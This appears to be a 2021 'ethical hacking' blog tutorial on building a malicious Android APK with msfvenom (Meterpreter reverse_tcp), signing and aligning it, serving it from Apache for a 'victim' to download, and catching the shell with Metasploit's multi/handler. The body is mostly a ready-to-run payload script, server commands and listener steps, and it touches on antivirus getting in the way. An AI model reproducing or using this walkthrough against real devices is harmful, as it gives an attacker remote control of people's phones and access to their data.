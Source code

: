 +++ 
date = "2021-06-03"
title = "Hack an Android device with MSFvenom and Kali Linux"
slug = "Hack an Android device with MSFvenom and Kali Linux"
tags = []
categories = ["Ethical Hacking"]
series = []
+++

There are different ways and tools to hack an Android device, in this post, I will focus on **MSFvenom** to generate an APK which will be installed on the target device and the **Metasploit console** to set up a listener which will be used to interact with the device through the APK installed. Keep in mind that the payload used is not going to work with every Android version, mostly with the recent ones. The main purpose is to show how create a payload and setup a listener, after that we just need to create a server where the victim will download the virus. I found many other tutorials on Google about this topic but they are extremely old and they don't even tell you the Kali version used. You might think that is not important, but when I was looking to learn how to use MSFvenom, many parameters used were not working. Here is a simple example:

```sh
$ msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.1.1  LPORT=4444 R > virus.apk
```

So why this is wrong in the first place ? If we paste this command in our terminal, we get this error:

```sh
Error: No options
```

As you can see something is not correct, more specifically "**R**" is not recognized as a parameter, technically this should create our APK as an output file, but if we check the official documentation on the [Offensive Security website](https://www.offensive-security.com/metasploit-unleashed/msfvenom/), we can clearly see that the correct parameter to use is "**-o**":

!["msfvenom-commands"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/msfvenom-commands.png)

This is just a simple tip to take these tutorials as they are right now, because after one year they could already be outdated, even this tutorial created by me of course. If something is not working, check the [documentation](https://www.offensive-security.com/metasploit-unleashed/).

## Requirements

It should be obvious but these are the tools required:

- [Kali Linux](https://www.kali.org/get-kali/) (the version used is **2021.1**)
- An Android device (if you do not have an Android phone, use a VM or an emulator like [Bluestacks](https://www.bluestacks.com/))

You have already installed Kali Linux but you don't remember the correct version ? No problem, use this command in the terminal:

```sh
$ lsb_release -a
```

And you should get the following output:

```sh
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2021.1
Codename:       kali-rolling
```

## Create the payload

Instead of typing 7 different commands in the terminal one by one, we can simply create a shell script to do the job. Open the terminal and use the following command to create a file:

```sh
$ touch createThePayload.sh
```

Make the script created an executable with:

```sh
$ chmod +x createThePayload.sh
```
Copy and paste the following code (of course you have to set your IP and a port like **4444**):

```sh
##!/bin/sh
 
msfvenom -p android/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -o virus.apk
 
keytool -genkey -V -keystore key.keystore -alias hacked -keyalg RSA -keysize 2048 -validity 10000
 
sudo apt-get install default-jdk -y
 
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore virus.apk hacked
 
jarsigner -verify -verbose -certs virus.apk
 
sudo apt-get install zipalign -y
 
zipalign -v 4 virus.apk virus_signed.apk
```

Type **./createThePayload.sh** and hit enter to execute the script, check the output in the terminal to see if everything is correct.

### A quick explanation about the commands used

With **MSFvenom** we set the payload, the host which is our IP, the port and the output as "**virus.apk**". 

The **keytool** command is a key and certificate management utility. We set the keystore file to generate, an alias like **hacked** but you can use what you want just keep in mind this alias when you are using the **jarsigner** command, the algorithm like RSA, the key size, the validity. 

We have to install two packages, **default-jdk** to use the jarsigner in order to sign and verify a Java Archive, **zipalign** which is an archive alignment tool that provides important optimization to Android application (.apk) files. We set the parameter "**-y**" to automatically answer with "yes" to the prompt in the terminal. We need to sign a certificate because Android mobile devices are not allowed to install apps without the appropriately signed certificate. Android devices only install signed .apk files.

## Setup the server

Now to download the APK on a target machine, we could use a server with **Apache**, from here we just need to go the correct url, which is something like "**192.168.1.2/virus_signed.apk**". In order to move the APK created by the script in "**/var/www/html**", we need root permissions. Besides using a command like:

```sh
$ sudo virus_signed.apk /var/www/html/virus_signed.apk
```

You could also use the following command when you know you will be running various commands that need root access and don't want to run each of them with sudo:

```sh
$ sudo -i
```

Check if the **apache2** service is running with:

```sh
$ service apache2 status
```

If you get the following output:

```sh
● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: inactive (dead)
       Docs: https://httpd.apache.org/docs/2.4/
```

Start the service with:

```sh
$ sudo service apache2 start
```

If we open Firefox and type the IP of our machine (you can get the IP with the terminal by typing **ifconfig**), we get the Debian Page:

!["it-works"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/it-works.png)

And if we search our apk file in the website directory, we can download it:

!["download-apk"](/images/posts/hack-an-android-device-with-msfvenom-and-kali-linux/download-apk.png)

## Setup the listener

And now we have to set our listener with the **msfconsole**, we set the exploit, the payload and the host. The port is already set as 4444 but you change it. After that we will run it and we will download the apk on a mobile device or an emulator, in my case I used my phone. Follow these steps to set the listener:

1. Start the **msfconsole**:

```sh
$ msfconsole
```

2. When the console is ready, type this command (it should be obvious but don't copy "**msf >**" in the terminal):

```sh
msf > use exploit/multi/handler
```

3. Set the host:

```sh
msf > set lhost TypeYourIPHere
```

4. Set the payload:

```sh
msf > set payload android/meterpreter/reverse_tcp
```

5. Run the exploit:

```sh
msf > run
```

Download the apk on the phone, you need to make sure that your Kali machine and your Android device are on the same network.

## Let's test some commands

Some commands will not work, but the main purpose of this video is to show how to make this stuff work, you can always change the payload or even make your own payload. Here is a quick demo:

{{< vimeo 559419552 >}}

## TLDR

With this post you should be able to create a payload for Android, setup a server and a listener to make everything work perfectly. As you can see in the demo, the antivirus is preventing us from installing the APK, in some cases it can also close the connection to our Kali machine. There are other cases where the connection will be closed, unfortunately there isn't a single solution so you will need to try different approaches. Try to check if the architecture used to create the APK is the same used by Android and of course if the antivirus is preventing the payload to work correctly.